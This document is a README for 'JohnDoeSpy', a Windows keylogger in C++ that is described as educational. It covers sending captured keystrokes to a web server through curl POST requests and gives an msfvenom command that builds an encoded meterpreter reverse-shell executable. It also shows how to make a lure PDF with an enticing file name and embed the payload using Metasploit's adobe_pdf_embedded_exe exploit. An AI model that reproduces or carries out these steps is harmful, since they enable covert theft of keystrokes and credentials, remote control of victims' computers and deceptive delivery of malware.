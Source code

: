 # JohnDoeSpy

# Introduction
<p> This is a simple keylogger for educational purposes. I'm not responsible of your usage. </p>
<p> Keylogger build in C++ for detect keys from keyboards (specific keys only available for french keyboard). You can receive data from url intermediate hosting or by simple text file hidden in your directory. </p>


# HAVE TO KNOW 

<p> This keylogger is build for french keyboard, by the way specific characters will appear with bad matching if you use an other country's keyboard. But any others characters show on <p/>

### WORK ONLY FOR WINDOWS ###


## How to start

* Open terminal from root path project 
* <code> cd build\dllToExe </code>
* <code> pefrmdllembed.exe -impinj KeyloggerV1.exe libcurl-d.dll zlibd1.dll <NameKeylogger.exe> </code>
* Launch <NameKeylogger.exe>
  
  
 ## Payload metasploit
 
 <code> msfvenom -x .\JohnnyLounch.exe -p windows/meterpreter_reverse_tcp -f exe -e x86/shikata_ga_nai lhost=192.168.1.80 lport=4444  -o JohnnyLounchMeterpreter2.exe </code>

### $_POST['text'] matching request curl for receive data on your website.
### You have an example in web directory


## HOW TO CREATE PDF COMPATIBLE FOR EMBED EXE FILE IN

* <code>echo "Hello world!" > femmes_toutes_nues.txt</code>
* <code>groff -Tps femmes_toutes_nues.txt > femmes_toutes_nues.ps </code>
* <code>ps2pdf femmes_toutes_nues.ps </code>

* <code> msfconsole </code>
* <code> use exploit/windows/fileformat/adobe_pdf_embedded_exe </code>

